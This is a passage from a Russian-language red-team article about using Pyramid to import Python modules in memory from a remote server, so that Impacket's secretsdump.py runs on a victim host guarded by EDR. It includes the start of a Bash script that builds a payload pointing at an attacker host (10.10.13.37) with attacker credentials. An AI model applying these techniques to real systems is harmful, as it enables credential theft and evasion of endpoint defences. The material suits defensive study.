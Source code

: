 Полный код того, что у меня получилось после незначительного рефакторинга исходного проекта, можно найти [у меня на GitHub](https://gist.github.com/snovvcrash/39263ccae8e07210c3f87c9472b4c908#file-cfinder-py). Рядом лежат пресеты для генерации боевых скриптов на основе общего темплейта, которыми мы будем пользоваться в следующем разделе.

Пока готовил материалы для статьи, нашел интересный репозиторий **httpimport**, который, судя по описанию, умеет делать все то же самое, что реализовали мы, но с дополнительными плюшками.

Сам я этот код не тестил, но, может, тебе будет интересно с ним поиграть:

- [operatorequals/httpimport: Module for remote in-memory Python package/module loading through HTTP/S](https://github.com/operatorequals/httpimport)

# Pyramid в действии

## impacket-secretsdump

Представим, что мы оказались на машине с EDR, который не дает нам [сдампить секреты LSA](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets), [получить доступ к хранилищу SAM](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry) или [провести DCSync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync), потому что [Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1) отказывается грузиться в память.

Конечно же первое, что приходит на ум в этой ситуации, это использовать [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) из коллекции Impacket, который может помочь справиться с любой из перечисленных выше задач. Как мы уже поняли, просто положить модуль Impacket на диск не получится, и в этой ситуации пришлось бы проксировать трафик во внутреннюю сеть, чтобы заюзать `secretsdump.py` удаленно. Но можно сделать и на самой машине-жертве с помощью безфайлового импорта зависимостей.

Чтобы успешно запустить `secretsdump.py`, нам нужно перепаковать [список зависимостей Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/requirements.txt), что уже сделал за нас автор инструмента. Далее я покажу, как это можно применить для запуска других модулей, а пока воспользуемся готовыми архивами [из директории Server](https://github.com/naksyn/Pyramid/tree/main/Server).

Для наглядности я подготовил несколько простых Bash-скриптов, генерирующих финальный пейлоад. Вот как выглядит скрипт для сборки `secretsdump.py`:

```bash
#!/usr/bin/env bash

cat << EOT > pwn.py
PYRAMID_HOST = '10.10.13.37'
PYRAMID_PORT = '443'
PYRAMID_USERNAME = 'attacker'
PYRAMID_PASSWORD = 'Passw0rd1!'
PYRAMID_TO_UNPACK = ('Cryptodome',)
PYRAMID_TO_IMPORT = (
    'setuptools',
    'pkg_resources',
    'jaraco',
    '_distutils_hack',
    'distutils',
    'cffi',
    'configparser',
    'future',
    'chardet',
    'flask',
    'ldap3',
    'ldapdomaindump',
    'pyasn1',
    'OpenSSL',
    'pyreadline',
    'six',
```